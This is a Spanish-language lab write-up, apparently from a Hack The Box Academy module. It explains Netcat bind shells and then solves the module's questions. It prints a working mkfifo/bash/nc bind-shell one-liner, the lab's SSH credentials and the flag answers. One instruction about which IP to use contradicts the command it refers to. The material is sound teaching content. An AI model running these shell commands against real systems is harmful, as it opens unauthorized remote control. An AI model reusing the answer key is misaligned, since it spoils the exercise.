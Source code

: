 Un _bind shell_ permite al pentester conectarse a un sistema objetivo a través de su shell. En este caso, el sistema **víctima** inicia un _listener_ que espera conexiones entrantes.

1. El objetivo (target) inicia un listener en un puerto específico usando Netcat (nc).
```
nc -lvnp 7777
```

2. El atacante (cliente) se conecta al IP y puerto del objetivo:
```
nc -nv <IP_objetivo> 7777
````
3. Al conectarse, se establece un canal de comunicación (TCP), pero inicialmente solo permite enviar y recibir texto.

### Consideraciones

- Debe haber un listener activo en el objetivo.
- Los firewalls de red u OS pueden bloquear conexiones entrantes.
- NAT y PAT en redes públicas dificultan la conexión desde fuera.
- Más fácil de detectar que un _reverse shell_ por tráfico entrante.

### Estableciendo un bind shell real con Netcat

Para obtener control real del sistema y no solo enviar texto, en la máquina víctima, se debería ejecutar:

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP_víctima> 7777 > /tmp/f
```

Este comando conecta la shell del servidor con Netcat, creando un canal bidireccional para que el atacante pueda enviar comandos y recibir respuestas.
En este comando, la **máquina víctima** tiene que reemplazar `<IP_objetivo>` por la **IP de la máquina atacante**, no la suya.

Máquina atacante ejecuta:
```
nc -nv <IP_víctima> 7777
```
Este comando se utiliza para conectarse al servidor y enviar comandos a la shell.

----
***QUESTIONS***
Target(s): 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS)
SSH to 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS) with user "htb-student" and password "HTB_@cademy_stdnt!" 

**1. Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?**
Respuesta: *443*

**2. SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

Ejecuto desde la máquina atacante un:
```
ssh htb-student@10.129.201.134
```

Ingreso la contraseña *HTB_@cademy_stdnt!*
Con un *whoami* me aseguro que sea *htb-student*.

La máquina ataca

Pongo a la máquina víctima en escucha por el puerto 8080, con el comando:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <IP_víctima> <puerto_víctima> > /tmp/f
```

Siendo el comando final:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 8080 > /tmp/f
```

El atacante, debe ejecutar:
```
sudo nc -nv <ip_vicitma> <puerto_víctima>
```

Se establece la conexión exitosamente:
```
┌─[eu-academy-3]─[10.10.14.95]─[htb-ac-1876550@htb-arqddjqiag]─[~]
└──╼ [★]$ sudo nc -nv 10.129.201.134 8080
(UNKNOWN) [10.129.201.134] 8080 (http-alt) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$    <-- listo para escribir comandos

```

Y realizo un *cat /customscripts/flag.txt*, viendo como salida: 
```
htb-student@ubuntu:~$ cat /customscripts/flag.txt
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```
Respuesta: *B1nD_Shells_r_cool*
